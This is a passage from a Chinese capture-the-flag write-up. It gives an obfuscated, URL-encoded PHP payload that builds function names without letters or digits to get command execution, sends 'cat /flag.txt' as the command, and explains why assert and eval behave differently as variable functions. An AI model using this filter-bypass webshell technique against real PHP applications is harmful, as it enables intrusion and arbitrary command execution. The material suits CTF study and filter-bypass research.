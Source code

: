```html
%24_%3D%3C%3C%3C_%0AC%0A_%3B%0A%24__%3D%3C%3C%3CC%0A_%0AC%3B%0A%0A%24_%2B%2B%3B%24_%2B%2B%3B%0A%24_%2B%2B%3B%24_%2B%2B%3B%0A%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%5B1%5D%3B%20%0A%0A%24_0%3D%24___%3B%20%0A%24___%2B%2B%3B%24_1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_3%3D%24___%3B%20%0A%24___%2B%2B%3B%24__1%3D%24___%3B%20%0A%24___%2B%2B%3B%24__2%3D%24___%3B%20%0A%24___%2B%2B%3B%24__3%3D%24___%3B%20%0A%24___%2B%2B%3B%24___1%3D%24___%3B%20%0A%24___%2B%2B%3B%24___2%3D%24___%3B%20%0A%24___%2B%2B%3B%24___3%3D%24___%3B%20%0A%24___%2B%2B%3B%24____1%3D%24___%3B%20%0A%24___%2B%2B%3B%24____2%3D%24___%3B%20%0A%24___%2B%2B%3B%24____3%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____3%3D%24___%3B%20%0A%24___%2B%2B%3B%24______1%3D%24___%3B%20%0A%24___%2B%2B%3B%24______2%3D%24___%3B%20%0A%24___%2B%2B%3B%24______3%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______3%3D%24___%3B%20%0A%24___%2B%2B%3B%24________1%3D%24___%3B%20%0A%24___%2B%2B%3B%24________2%3D%24___%3B%0A%24___%2B%2B%3B%24________3%3D%24___%3B%0A%24___%2B%2B%3B%24_________1%3D%24___%3B%0A%0A%24_01%3D%24_____3.%24_0.%24______3.%24______3.%24_______1.%24___1.%24______2.%24_______2%3B%0A%24_02%3D%24__.%24_____3.%24_____2.%24______3.%24_______1%3B%0A%24__%3D%24%24_02%3B%0A%24_01(%24__%5B_%5D)%3B
&_=cat /flag.txt
```



#### 一点小补充：

在写payload的时候，本来是打算使用assert或者eval的

> assert把整个字符串参数当php代码执行，eval把合法的php代码执行

在PHP7.1版本以后， assert()默认不再可以执行代码
(assert在更新后无法将使用字符串作为参数，而GET或POST传入的数据默认就是字符串类型）

我们都知道eval相当于将字符串拼接到原来的代码中，正常来说把assert换成eval就可以了

但这里会报错Call to undefined function EVAL()

经过查询知道：

> eval是语言构造器而不是一个函数，不能被可变函数调用
>
> 可变函数即变量名加括号，PHP系统会尝试解析成函数，如果有当前变量中的值为命名的函数，就会调用。如果没有就报错。
> ·
> 可变函数不能用于例如 echo，print，unset()，isset()，empty()，include，require eval() 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数



参考文章：
[一些不包含数字和字母的webshell | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
[无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
[动态调用函数时的命令执行对于eval()和assert()的执行问题_Alexhirchi的博客-CSDN博客](https://blog.csdn.net/weixin_43669045/article/details/107093451)

### ATTup
